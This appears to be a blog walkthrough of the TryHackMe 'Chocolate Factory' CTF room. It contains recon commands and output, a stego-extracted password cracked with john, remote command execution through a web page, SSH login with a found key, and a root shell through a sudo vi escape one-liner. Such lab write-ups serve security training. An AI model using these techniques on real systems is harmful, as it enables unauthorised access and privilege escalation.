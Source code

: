 ```yaml
---
layout: post
title: Walkthrough - Chocolate Factory
published: True
---
```


Find hidden keys, python programs and use base in A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.192.137 -vvv``
- ``sudo nmap -sV -sT -sC -p21,22,80``

```shell 
PORT    STATE SERVICE    REASON
21/tcp  open  ftp        syn-ack ttl 61
22/tcp  open  ssh        syn-ack ttl 61
80/tcp  open  http       syn-ack ttl 61
100/tcp open  newacct    syn-ack ttl 61
101/tcp open  hostname   syn-ack ttl 61
102/tcp open  iso-tsap   syn-ack ttl 61
103/tcp open  gppitnp    syn-ack ttl 61
104/tcp open  acr-nema   syn-ack ttl 61
105/tcp open  csnet-ns   syn-ack ttl 61
106/tcp open  pop3pw     syn-ack ttl 61
107/tcp open  rtelnet    syn-ack ttl 61
108/tcp open  snagas     syn-ack ttl 61
109/tcp open  pop2       syn-ack ttl 61
110/tcp open  pop3       syn-ack ttl 61
111/tcp open  rpcbind    syn-ack ttl 61
112/tcp open  mcidas     syn-ack ttl 61
113/tcp open  ident      syn-ack ttl 61
114/tcp open  audionews  syn-ack ttl 61
115/tcp open  sftp       syn-ack ttl 61
116/tcp open  ansanotify syn-ack ttl 61
117/tcp open  uucp-path  syn-ack ttl 61
118/tcp open  sqlserv    syn-ack ttl 61
119/tcp open  nntp       syn-ack ttl 61
120/tcp open  cfdptkt    syn-ack ttl 61
121/tcp open  erpc       syn-ack ttl 61
122/tcp open  smakynet   syn-ack ttl 61
123/tcp open  ntp        syn-ack ttl 61
124/tcp open  ansatrader syn-ack ttl 61
125/tcp open  locus-map  syn-ack ttl 61

21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

- ``gobuster dir -u http://10.10.192.137/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

- the ftp we find a picture of wrigleys gum
- using ``stegseek`` we can get a base64 encrypted textfile. we can use ``base64 -d`` on it and we see its a user:pass list with charlie. lets crack.
- ``john charlie.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chocolate-Factory]
└─$ john charlie.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cn7824           (charlie)     
1g 0:00:06:41 DONE (2022-07-29 04:42) 0.002489g/s 2451p/s 2451c/s 2451C/s cocker6..cn123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- we can login to the http server page with these creds and it brings us to a page where we can execute commands remotely
- and ``ls`` shows us the files we can wget over to our machine.
- checking ``key_rev_key`` looks like we need a name to open the file to get a key. But trying every name I cant find anything. 
- checking the home directory we can find a ssh key with no password we can use to ssh in with charlie.

* * * 

## Enter the key you found!

- Using ``strings`` we can find the name and the key.

* * * 

## What is Charlie's password?

- we found this already with stegseek

* * * 

## change user to charlie

- login to ssh with the non password protected rsa key

* * * 

## Enter the user flag

- ``cat user.txt``

* * * 

## Enter the root flag

```shell
User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

- we can privesc with vim
- ``sudo vi -c ':!/bin/sh' /dev/null``
- ``python /root/rooy.py`` and enter the key we found with ``strings`` on ``key_rev_key``

![](/assets/chocolate-factory01.png)

* * * 

